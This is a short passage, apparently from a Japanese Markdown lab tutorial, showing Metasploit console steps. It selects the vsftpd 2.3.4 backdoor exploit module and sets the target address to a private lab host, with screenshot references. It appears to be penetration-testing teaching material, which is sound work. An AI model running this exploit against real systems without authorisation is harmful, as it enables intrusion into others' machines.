   <img src="./img/ss7.png" width="600">

  ```
  > use exploit/unix/ftp/vsftpd_234_backdoor
  ```

  ```
  > show options
  RHOST が空欄であることを確認

  > set RHOSTS 192.168.11.4
  攻撃対象を設定

  > show options
  RHOST がセットされる
  ```

  <img src="./img/ss8.png" width="600">